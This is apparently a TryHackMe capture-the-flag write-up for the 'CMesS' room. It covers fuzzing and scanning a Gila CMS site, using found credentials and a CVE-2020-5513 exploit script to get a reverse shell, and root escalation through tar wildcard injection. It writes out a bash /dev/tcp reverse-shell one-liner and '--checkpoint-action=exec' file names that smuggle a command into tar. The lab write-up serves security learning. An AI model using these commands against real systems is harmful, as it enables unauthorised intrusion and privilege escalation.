

### THM - CMesS

Link to the room: [CMesS](https://tryhackme.com/room/cmess)

Difficulty: Medium(Should be easy)

#### Let's get start

After adding ```{IP} cmess.thm``` to our hosts file, we can start to enumerate the website. Since we know from the box description that this's a Gila CMS box.


After doing some basic enum on the page, nothing seems out of ordinary. Let's fuzz the page with ffuf.

```ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://cmess.thm/FUZZ -fs 4078 -ic -c```


We found some interesting directories and ```/admin``` is the login page. However, we still haven't found anything useful. Let's run nmap and fuzz for subdomains.

```sudo nmap -sS -vv -Pn cmess.thm```

```ffuf -u http://cmess.thm -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H 'Host: FUZZ.cmess.thm' -fw 522 -ic```


We found a subdomain ```dev.cmess.thm```. Let's check it out.


Great! We found a password and a username. Let's try to login to the admin page.


At this point, our posibility is endless. We know that this is a Gila CMS version 1.10.9. There are so many vulnerability for this version. 

https://infosecdb.wordpress.com/2020/01/05/gilacms-1-11-8-cm-deletet-lfi-local-file-inclusion-and-rce/

So here are our options:

    - We could use the python script(pwn_gila.py) that I wrote to exploit this vulnerability (CVE-2020-5513)
    - We could do it manually (CVE-2020-5513)
    - We could upload a php reverse shell and use it to get a shell
    - We could edit the php file in one of the theme files and get a shell

In my case, I'll use the python script to exploit the vulnerability. 

```python3 pwn_gila.py http://cmess.thm andre@cmess.thm {PASSWORD} {LHOST_IP} {LPORT}"```


Let's start a netcat listener and call the url from the script.


Great! We have out shell. Let's make it a better shell and do some enum.

```python3 -c 'import pty;pty.spawn("/bin/bash")'```

```export TERM=xterm```

On our machine background our current shell and run (Ctrl+z) : ```stty raw -echo;fg```

After doing basic manual enum on the host, we can see a couple of interesting things. Let's use it to for privilege escalation.




#### Privilege Escalation

We can see that there is a cronjob running every 2 minutes. It is running tar command with wildcard. This is a very common privilege escalation technique. We can use this to escalate our privilege.

Let's start by switching to the user ```andre``` and get user flag.


Then to escalate our privilege, we can use these command in andre's backup folder :

```
echo "bash -c 'bash -i >& /dev/tcp/{IP}/{PORT} 0>&1'" > shell.sh
echo "" > "--checkpoint=1"
echo "" > "--checkpoint-action=exec=sh shell.sh"
chmod 777 shell.sh
```


Let's start a netcat listener and wait for the cronjob to run.


We got root shell. Let's get the root flag.


Thank you for reading my writeup. If you have any questions, feel free to ask me.
